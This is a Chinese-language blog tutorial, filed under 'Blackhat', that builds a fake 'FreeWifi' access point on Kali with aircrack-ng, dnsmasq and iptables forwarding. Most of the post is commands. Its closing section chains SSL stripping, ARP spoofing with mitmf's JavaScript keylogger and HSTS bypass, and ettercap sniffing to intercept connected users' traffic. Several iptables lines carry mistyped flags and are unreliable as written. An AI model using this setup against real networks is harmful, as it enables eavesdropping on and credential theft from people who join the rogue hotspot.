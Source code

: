```yaml
---
title: Kali中使用Aircrack-ng和Dnsmasq工具创建伪AP热点
name: aircrack-dnsmasq-fake-ap
date: 2017-1-8
tags: [aircrack，dnsmasq]
categories: [Blackhat]
---
```



* 目录
{:toc}

# Kali中使用Aircrack-ng和Dnsmasq工具创建伪AP热点

## 1.必须工具
- Aircrack-ng
- Dnsmasq
- Wireless Adapter

**Aircrack-ng**：Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。Aircrack-ng可以工作在任何支持监听模式的无线网卡上并嗅探802.11a，802.11b，802.11g的数据。

**Dnsmasq**：DNSmasq是一个小巧且方便地用于配置DNS和DHCP的工具，适用于小型网络，它提供了DNS功能和可选择的DHCP功能。

**Wireless Adapter**：无线网卡，伪装AP热点无线一个无线网卡，建议使用外置的无线网卡。

## 2.查看无线网卡并启动监听
使用`airmon-ng`命令查看当前可用的无线网卡信息，如wlan0
使用`airmon-ng start [网卡名称]`启动无线网卡为监听模式，得到wlan0mon

## 3.创建无线AP热点
使用命令`airbase-ng -e [AP_NAME] -c [channel] wlan0mon`创建无线AP热点，如：
```shell
airbase-ng -e FreeWifi -c 6 wlan0mon
```
此时可以扫描到创建的无线热点，但是不能连接去。

## 4.创建虚拟网卡及网关
新打开一个终端，执行以下命令创建虚拟网卡及其路由配置
```shell
ifconfig at0 10.0.0.1/24 up
ifconfig at0 mtu 1400
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

## 5.编辑Dnsmasq配置并启动
编辑 **dnsmasq** 配置文件`vi /etc/dnsmasq.conf`
```shell
interface=at0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-dhcp
log-queries
```
启动 **dnsmasq** 服务
```
dnsmasq -C /etc/dnsmasq.conf -d
```

## 6.开启IP转发并设置IPTables转发规则
```shell
iptables -flush
echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -P FORWARD ACCEPT
iptables -append FORWARD -in-interface at0 ACCEPT

iptables -table -nat -append POSTROUTING -out-interface eth0 -j MASQUERADE
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

## 后续可以做什么？
```
iptables -t nat -A PREROUTING -p tcp -destination 80 -j REDIRECT -to-port 10000
sslstrip -f -p -k 10000

mitmf -i at0 --spoof --arp -gateway 10.0.0.1 --jskeylogger --hsts

ettercap -p -u -T -q -i at0
```

